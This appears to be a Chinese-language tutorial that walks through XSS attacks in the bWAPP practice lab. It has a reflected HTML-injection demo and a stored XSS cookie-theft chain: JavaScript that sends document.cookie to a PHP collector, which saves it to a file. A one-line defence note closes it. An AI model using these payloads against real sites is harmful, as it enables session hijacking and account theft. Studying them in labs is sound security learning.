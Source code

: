 ### 常见xss漏洞及其简单利用
<br>利用一个简单的表单生成临时的链接

![一个普通的表单](pic/HTMLInject.png)

该表单由于没有对用户的输入进行过滤，会原封不动的将用户输入的账号密码反馈回来，因此我们可以构造一个恶意的链接，欺骗用户去点击。
<br>这里进行简单测试，将某一个名字写成指向百度的HTML元素。
```html
<a href="http://www.baidu.com">ClickHere</a>
```
![名字变成链接](pic/2.png)
<br>成功进入百度首页<br>
![百度](pic/3.png)

<br>在留言框等地永久执行恶意脚本
<br>这次玩个高级点的，获取用户的cookie。先写一个JavaScript和PHP脚本。
![留言框](pic/blog.png)

```javascript
var img = new Image();
img.src = "http://localhost/bWAPP/hack.php?q="+document.cookie;
document.body.append(img);
<!--document.cookie可以用于获取用户的cookie-->
```

```php
<?php 
$cookie = $_GET['q'];
var_dump($cookie);
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?> 
```
<br>我们先把这两个文件放在合适的地方，本地测试的话可以考虑放在web根目录。构造一对script标签使js脚本可以被执行，进而PHP脚本也会被执行。
<br>我们构造一对标签，为了显示内容，可以随便写点其他东西。
```html
<script src="http://localhost/bWAPP/hack.js">
<!--只要该页面被访问，cookie就会被拿下，然后就可以干好多事了-->
</script>
hahah
```
![脚本加进去了](pic/4.png)
刷新一下发现cookie.txt文件里，出现了cookie的字符串。
![拿到cookie](pic/5.png)

<br>如何防止这些恶意行为呢，这里先提一个最简单的方法，那就是过滤字符串，将一些敏感字符过滤掉可以防止大多数xss攻击。